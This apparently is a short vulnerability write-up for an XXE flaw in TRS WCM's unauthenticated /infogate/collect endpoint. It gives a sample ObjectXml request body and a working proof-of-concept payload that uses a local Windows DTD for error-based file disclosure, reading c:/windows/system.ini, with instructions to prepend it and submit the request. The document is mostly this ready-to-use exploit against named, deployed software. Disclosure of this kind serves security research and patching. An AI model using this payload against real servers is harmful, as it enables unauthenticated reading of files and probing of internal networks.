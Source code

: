 # TRS WCM XXE
## Description
An XXE issue was discovered in WCM, which can be used to read any file in the system or scan the internal network without authentication. When submitting a post request to `/infogate/collect`, the *ObjectXml* parameter is in XML format, and the server doesn't properly verify the validity when processing XML data.

## POC
The normal request is as follows
![](img/wcmxxe0.png)

*ObjectXml* parameter content looks like this
```
<my:myFields xmlns:my="http://schemas.microsoft.com/office/infopath/">
<my:group1>
<my:您的姓名><![CDATA[123123123123123]]></my:您的姓名>
<my:联系电话><![CDATA[123123]]></my:联系电话>
<my:邮箱><![CDATA[123123]]></my:邮箱>
<my:联系地址><![CDATA[123]]></my:联系地址>
<my:主题><![CDATA[123123]]></my:主题>
<my:内容><![CDATA[123123]]></my:内容>
</my:group1>
</my:myFields>
```

POC:
```
  <!DOCTYPE message [
      <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
          '>
      %local_dtd;
  ]>
  <message>any text</message>
```

Put the POC code before the content of the ObjectXml parameter and submit the request
![](img/wcmxxe1.png)
